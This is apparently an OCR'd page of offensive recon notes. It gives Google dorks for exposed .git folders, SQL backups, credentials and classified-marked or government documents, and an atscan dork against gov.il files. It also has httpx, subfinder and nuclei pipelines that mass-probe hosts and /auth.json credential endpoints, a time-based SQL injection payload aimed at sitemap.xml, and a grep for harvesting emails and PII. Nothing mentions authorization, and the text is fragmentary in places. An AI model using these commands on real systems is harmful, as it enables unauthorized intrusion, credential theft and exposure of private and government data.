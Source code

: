 intitle:"index of" google-maps-api
intitle:"index of" github-api
inurl:uploadimage.php
intitle: "index of" "/backup.sql"
intitle:"Sharing API Info"
inurl:user intitle:"Drupal" intext:"Log in" -"powered by"
inurl: /libraries/joomla/database/
"web.config" | inurl:/conf/ | "error_log"
intitle:"Index of /" + ".htaccess"
intitle:"index of /.git" "paren directory"
inurl:Makefile.toml
#### Govermment documentss
allintitle: restricted filetype:doc site:gov
#### pdf files
intitle: index of pdf | ext:pdf | inurl:.pdf
filetype:pdf “Confidential” | “Secret” | “Classified”



atscan --dork "site:gov.il ext:txt|xlsx|csv" --motor google --level 5 




Extract and Probe all the ips associated with same host via httpx:-

httpx -l /root/urls.txt -pa -o urls_ips.txt

Extract the IPS
github.com/emadshanab/Ext…

Scan all the ports via httpx.

httpx -l ips.txt -ports - -o ips_ports.txt

nuclei -l ips_ports.txt -t nuclei-templates




Extract Sensitive Informations on /auth.json Endpoint.

subfinder -d TARGET.COM | httpx -path "/auth.json" -title -status-code -content-length -t 80 -p 80,443,8080,8443,9000,9001,9002,9003
[SecDevOps]-Toolkit-[Technical-Attacks].md




Time-based SQLi in sitemap.xml 

cat urls | httpx -silent -path 'sitemap.xml?offset=1%3bSELECT%20IF((8303%3E8302)%2cSLEEP(10)%2c2356)%23' -rt -timeout 20 -mrt '>10'


github.com/thecybertix/

##  One-liners & Quick Wins

# Grep emails and other PII Data from URLs file
grep -E -o '\\\\\\\\b[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\\\\\\\\.[a-zA-Z]{2,}\\\\\\\\b' urls.txt
